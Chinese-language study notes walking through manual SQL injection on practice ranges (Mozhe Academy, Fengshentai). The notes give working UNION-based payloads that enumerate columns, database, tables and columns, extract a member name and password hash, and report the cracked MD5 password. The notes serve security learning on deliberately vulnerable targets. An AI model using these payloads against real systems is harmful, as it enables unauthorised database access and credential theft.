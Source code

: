 ### SQL注入

#### 墨者学院靶场[SQL手工注入漏洞测试(MySQL数据库)](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)
1. 第一步: 查看是否存在注入点 
    `and 1=1` 可以打开
    `id=1 and 1=2` 不能打开
    `id=1 西瓜` 不能打开
1. 第二步: 查看列数量
    `id=1 order by X` X从1不断往上递加直到网页不能正常显示,此题目最大值为4,说明为4列
1. 第三步: 报错查看列名情况
    `id=-1 union select 1,2,3,4` 显示为2,3
1. 第四步: 从2,3查询, 查看版本, 数据库等信息
    `id=-1 union select 1,version(),database(),4` 此题结果, 版本:`version() = 5.7.22-0ubuntu0.16.04.1` 数据库: `database()=mozhe_Discuz_StormGroup`
    查询表名:
    `id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'` 表名结果:`StormGroup_member,notice` 对此题来说,是`StormGroup_member`
    查询列名:
    `id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'` 列名结果: `id,name,password,status`
1. 第五步: 查询数据
    `id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1`
    结果`name=mozhe` | `password=861de5d5f0a8128d0fab489996355994`
6.第六步:MD5解密
    name:mozhe 
    password:874769


#### 题目总结

1. 判定注入点
1. 查看列数量
1. 通过报错注入配合页面查看数据回显
1. 通过union联合查询拿到数据库版本,数据库名,表名,列名等信息
1. 查询出数据


#### 封神台SQL注入靶场

基本步骤同墨者学院靶场 

**不同之处:**
- 使用`union`联合查询前, 不是用`id=-1`去过滤掉结果集, 后台应该有对id不存在时做了处理, 此时, 使用`id=1 and id=2`去`union`新的结果集, 过滤掉前面的结果

例:`id=1 and id=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='maoshe'`

![数据库名称查询结果](images/2021-08-07-14-32-44.png)